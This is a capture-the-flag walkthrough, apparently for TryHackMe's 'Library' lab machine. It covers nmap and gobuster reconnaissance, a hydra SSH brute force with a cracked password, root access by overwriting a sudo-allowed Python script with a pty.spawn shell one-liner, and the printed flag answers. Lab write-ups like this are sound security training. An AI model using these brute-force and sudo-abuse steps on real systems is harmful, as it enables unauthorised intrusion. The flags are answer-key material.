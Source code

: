 # Libray Walkthrough
### Link
- https://tryhackme.com/room/bseidesgtlibrary
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.54 seconds
```
```
sudo gobuster dir -u http://[IP]/ -w [Path]]/directory-list-2.3-small.txt
```
**Gobuster scan result**
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.222.1/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /Users/laurentnebout/Documents/Tools/SecLists-master/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/16 18:52:50 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.222.1/images/]
```
The **gobuster** scan found the directory **/images**. After a quick check, nothing here.

I also checked the source page **http://[IP]**. I found a user information: **meliodas**
```
Posted on June 29th 2009 by meliodas - 3 comments
```

If you take more attention on the **nmap** scan result, we have an interesting information.
```
http-robots.txt: 1 disallowed entry
```
I checked this file: **http://[IP]/robots.txt
```
User-agent: rockyou 
Disallow: /
```
---
### Recon

We can try to brute force the SSH by using **hydra**. Based on the information in the **robots.txt**, we can try the wordlit **rockyou.txt**
```
sudo hydra -l meliodas -P [PATH]]/rockyou.txt [IP] ssh
```
Result:
```
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
[22][ssh] host: 10.10.222.1   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-16 19:10:44
```

Ok, Now we have the couple username:password --> meliodas:iloveyou1. Let's SSH the server^^

```
ssh meliodas@10.10.222.1
The authenticity of host '10.10.222.1 (10.10.222.1)' can't be established.
ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.1' (ED25519) to the list of known hosts.
meliodas@10.10.222.1's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$
```

**Question**
#### user.txt
```
meliodas@ubuntu:~$ ls -l
total 8
-rw-r--r-- 1 root     root     353 Aug 23  2019 bak.py
-rw-rw-r-- 1 meliodas meliodas  33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

**Answer** 
#### 6d488cbb3f111d135722c33cb635f4ec
---
### Privilege Escalation

In addition to the **user.txt**, we have another file. A python script **bak.py**. Let's check this script.
```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Let's check the **meliodas** privileges
```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

**meliodas** can execute this script without password requirement. So we can modify the script to perform a privilege escalation.
- First: Visit this [website](https://netsec.ws/?p=337) and select the python commandline
- Second: Take a copy of the bak.py. **Never modify the content file in Prod**
```
meliodas@ubuntu:~$ cp bak.py bak.py.cp
meliodas@ubuntu:~$ ls
bak.py  bak.py.cp  user.txt
```
- Third: Delete **bak.py**, create a new **bak.py** with the appropriate content ro execute the privilege escalation
```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? y
meliodas@ubuntu:~$ ls -l
total 8
-rw-r--r-- 1 meliodas meliodas 353 Dec 16 16:26 bak.py.cp
-rw-rw-r-- 1 meliodas meliodas  33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ ls -l
total 12
-rw-rw-r-- 1 meliodas meliodas  33 Dec 16 16:31 bak.py
-rw-r--r-- 1 meliodas meliodas 353 Dec 16 16:26 bak.py.cp
-rw-rw-r-- 1 meliodas meliodas  33 Aug 23  2019 user.txt
```
- Fourth: Execute the python script
```
$ sudo python /home/meliodas/bak.py
# whoami
root
```
**Question**
#### root.txt
```
# cd /root
# ls
root.txt
# cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```
**Answer** 
#### e8c8c6c256c35515d1d344ee0488c617
